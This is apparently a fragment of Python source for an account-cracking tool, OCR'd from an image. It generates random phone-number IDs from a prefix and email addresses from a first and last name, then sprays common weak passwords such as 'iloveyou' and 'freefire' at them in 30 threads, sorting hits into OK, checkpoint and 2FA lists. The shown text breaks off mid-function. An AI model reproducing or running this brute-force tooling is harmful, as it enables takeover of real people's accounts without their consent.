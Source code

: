                 try:
                        limit = int(input('\033[1;31m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(8))
                        user.append(nmp)
                with tred(max_workers=30) as Aking:     
                        clear()
                        tl = str(len(user))
                        print(' [-] Cracking Limit   : \033[1;32m'+tl)
                        print(f'\033[1;37m [-] Choice code ..:\033[1;32m '+code)
                        print(f'\033[1;37m [-] Be Patience Cracking Has Been Started\033[1;97m')
                        print("--------------------------------------------------")
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'Bangladesh','bangladesh','i love you','iloveyou','free fire','freefire']
                                Aking.submit(rndm,ids,passlist)
                print('\033[1;37m')
               # l1()
                print(' The process has completed')
                print(' Total OK/CP/2F: '+str(len(oks))+'/'+str(len(cps))+'/'+str(len(twf)))
                l1()
                input(' Press enter to back ')
         #       os.system('python AKING.py')
def gmail():
                os.system('rm -rf .re.txt');os.system('clear');print(logo)  
                print('\033[1;37m example: muhammad, ali, sajjad, faizan\033[1;97m')
                l1()
                first = input(' Put first name: ')
                l1()
                print('\033[1;37m example: khan, ahmad, ali \033[1;97m')
                l1()
                last = input(' Put last name: ')
                l1()
                print(' Example: @gmail.com , @yahoo.com etc...')
                l1()
                domain = input(' domain: ')
                l1()
                try:
                        limit=int(input(' Put limit: '))
                except ValueError:
                        limit = 5000
                l1()
                print(' Getting gmails...')
                lists = ['3','4']
                for xd in range(limit):
                        lchoice = random.choice(lists)
                        if '3' in lchoice:
                                mail = ''.join(random.choice(string.digits) for _ in range(3))
                                open('.re.txt','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
                        else:
                                mail = ''.join(random.choice(string.digits) for _ in range(4))
                                open('.re.txt','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
                        fo = open('.re.txt', 'r').read().splitlines()
                with tred(max_workers=30) as Aking:
                        total = str(len(fo))
                        clear()
                        print(' [-] Cracking Limit : \033[1;32m'+total)
                        print("\033[1;37m[-] Be Patience Cracking Has Been Started\033[1;37m")